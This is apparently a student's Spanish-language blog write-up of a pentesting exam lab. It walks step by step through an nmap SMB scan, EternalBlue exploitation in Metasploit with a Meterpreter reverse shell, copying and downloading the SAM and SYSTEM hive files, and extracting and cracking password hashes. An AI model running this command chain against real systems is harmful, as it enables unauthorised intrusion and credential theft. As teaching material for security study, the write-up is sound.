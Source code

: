 ```yaml
---
title: Examen Parcial
date: 2024-11-03 00:00:00 +05:00
categories: [reconnaisance, kill chain, pentesting]
tags: [nmap, kali, metaxploid, SSH, vssown, handshake]  # TAG names should always be lowercase
---
```


# 2.1 Escaneo de Red y Enumeración de Servicios 
## Paso 1: Identificación de Puertos SMB
Los puertos a escanear son:

TCP 139: NetBIOS Session Service
TCP 445: SMB over TCP

## Paso 2: Comando Nmap
Ejecuta el siguiente comando en terminal de Kali Linux:

```bash
nmap -p 139,445 --script smb-protocols <10.0.2.4>
```

![figure](/assets/images/nmap2.jpeg)


## Paso 3: Análisis del Output
Al analizar la salida, busca líneas que indiquen la presencia de SMBv1, como:


```bash
| smb-protocols:
|   SMBv1:
|     NT LM 0.12
```
Esto confirmará que SMBv1 está habilitado.

## Análisis de los Resultados
- Puertos y Servicios Detectados:
139/tcp: netbios-ssn (abierto)
445/tcp: microsoft-ds (abierto)
- Resultados del Script smb-protocols:
SMBv1 está habilitado (indicado por NT LM 0.12).
Se señala que SMBv1 es peligroso y por defecto.

# 2.2 Exploración de la Vulnerabilidad
Identificación de Vulnerabilidad:
Después de realizar el escaneo, verifica si el servicio SMBv1 es vulnerable al exploit EternalBlue (CVE-2017-0144).

1. Usar Metasploit para Explorar SMB:

- Inicia Metasploit en Kali con el comando:
```bash
msconsole
```
![figure](/assets/images/msfconsole.png)

- Busco un exploit adecuado para SMBv1:
```bash
search ms17_010
use exploit/windows/smb/ms17_010_eternalblue
```
![figure](/assets/images/metasss.png)

Explicación:

EternalBlue: Este módulo aprovecha una vulnerabilidad en SMBv1 que permite la ejecución remota de código. Se selecciona este módulo porque es conocido por su eficacia en sistemas que aún utilizan SMBv1.


# 2.3. Configuración del Exploit en el Framework Metasploit
Configuración:

```bash
set RHOST <IP_VICTIMA>
set LHOST <TU_IP>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

![figure](/assets/images/exploid1.png)

Explicación de Parámetros:

- RHOST: Dirección IP de la máquina víctima. Es esencial para dirigir el exploit correctamente.
- LHOST: Dirección IP de tu máquina atacante, donde recibirás la conexión de retorno.
- PAYLOAD: Define el tipo de conexión que deseas establecer (en este caso, una shell reversa de Meterpreter).

# 2.4. Ejecución del Exploit
Ejecución:


```bash
exploit
```
![figure](/assets/images/55.png)

# 2.5. Exfiltración de Archivos SAM y SYSTEM

Infiltración del Script:
Sube el archivo vssown.vbs al sistema objetivo utilizando Meterpreter:

```bash
upload /ruta/local/vssown.vbs C:\Users\Public\vssown.vbs
```
Ejecutar el Script:

```bash
execute -f C:\Users\Public\vssown.vbs
```
Comandos para Crear Copia de Sombra:
Después de ejecutar el script, utiliza los siguientes comandos:

```bash
vss_list
```
Esto mostrará las copias de sombra disponibles.

Copiar Archivos SAM y SYSTEM:

```bash

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Windows\System32\config\SAM C:\Users\Public\SAM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Windows\System32\config\SYSTEM C:\Users\Public\SYSTEM
```
Descargar Archivos:

```bash
download C:\Users\Public\SAM /ruta/local/SAM
download C:\Users\Public\SYSTEM /ruta/local/SYSTEM
```

# 2.6. Análisis de los Archivos Exfiltrados
Extracción de Hashes:
Una vez que tengas los archivos SAM y SYSTEM en tu máquina Kali, utiliza samdump2:

```bash
samdump2 SYSTEM SAM > hashes.txt
```
Descifrado de Hashes:
Para intentar descifrar los hashes, usa herramientas como John the Ripper:

```bash

john hashes.txt
```

# 2.7. Requisitos de Documentación
Documentación:

Se realizo capturas de pantalla Captura pantallas de cada paso clave.
Explica en tu blog qué hace cada comando y por qué es relevante para la auditoría de seguridad.
